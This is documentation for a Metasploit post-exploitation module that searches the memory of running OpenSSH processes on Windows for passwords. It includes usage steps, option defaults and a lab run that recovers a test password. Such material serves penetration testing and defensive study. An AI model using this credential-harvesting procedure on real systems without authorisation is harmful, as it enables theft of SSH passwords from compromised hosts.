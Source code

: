 ## Vulnerable Application

This module allows for searching the memory space of running OpenSSH processes on Windows 
for potentially sensitive data such as passwords.

## Verification Steps

1. Start `msfconsole`
2. Get a Meterpreter session
3. Do: `use post/windows/gather/openssh_password_search`
4. Do: `set SESSION <Session ID>`
5. Do: `set PID <Process ID>`
6. Do: `run`

## Options

### PID

The process ID of the OpenSSH target process. (default: `nil`)

### REGEX

The regular expression to search for in process memory. (default: `publickey,password.*`)

### MIN_MATCH_LEN

The minimum match length. (default: `5`)

### MAX_MATCH_LEN

The maximum match length. (default: `127`)

### REPLACE_NON_PRINTABLE_BYTES

Replace non-printable bytes with `.` when outputting the results. (default: `true`)


## Scenarios

### Windows 10 - OpenSSH_9.4p1, OpenSSL 3.1.2 1 Aug 2023
In this scenario, the Windows target is connected to a different host using `ssh.exe` using the password `myverysecretpassword`.
```
msf6 post(windows/gather/openssh_password_search) > sessions

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  1         meterpreter x64/windows  DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB  192.168.112.1:4444 -> 192.168.112.129:59376 (192.168.112.129)
  

msf6 post(windows/gather/openssh_password_search) > run pid=8780 session=-1

[*] Running module against - DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB (192.168.112.129). This might take a few seconds...
[*] Memory Matches for OpenSSH
==========================

 Match Address       Match Length  Match Buffer                                                                                                      Memory Region Start  Memory Region Size
 -------------       ------------  ------------                                                                                                      -------------------  ------------------
 0x0000000A00060EE0  127           "publickey,password......3.......myverysecretpassword....................#.........#.....................#......  0x0000000A00000000   0x0000000000090000
                                   .client-session."

[*] Post module execution completed
```
